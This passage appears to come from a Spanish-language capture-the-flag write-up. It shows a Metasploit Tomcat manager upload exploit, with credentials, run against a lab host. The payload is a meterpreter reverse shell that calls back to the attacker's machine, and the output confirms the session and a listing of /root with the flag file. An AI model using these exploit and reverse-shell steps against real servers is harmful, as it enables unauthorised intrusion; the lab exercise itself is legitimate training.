 **Comando de ejecución en Metasploit:**

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.219.248
set RPORT 1234
set TARGETURI /manager
set HttpUsername bob
set HttpPassword bubbles
set LHOST 10.6.17.22
set LPORT 4444
set PAYLOAD java/meterpreter/reverse_tcp
run
```

---

## 4.3 Resultado

```
[*] Started reverse TCP handler on 10.6.17.22:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying k2B4AVB1XjI61s...
[*] Executing k2B4AVB1XjI61s...
[*] Sending stage (58037 bytes) to 10.10.219.248
[*] Undeploying k2B4AVB1XjI61s ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.6.17.22:4444 -> 10.10.219.248:42280)
```

# 5. Obtención de la Bandera y Validación de Acces

## 5.1 Localización de la Bandera

Después de obtener acceso con `meterpreter`, se navegó hacia el directorio `/root`, donde se identificó el archivo `flag.txt`.

**Comandos ejecutados:**
```bash
meterpreter > cd /root 
meterpreter > ls
```
**Resultado:**
```
Listing: /root 
============== 
.flag.txt 
.bash_history 
.bashrc 
.profile 
.ssh/ 
.viminfo 
snap/
```

---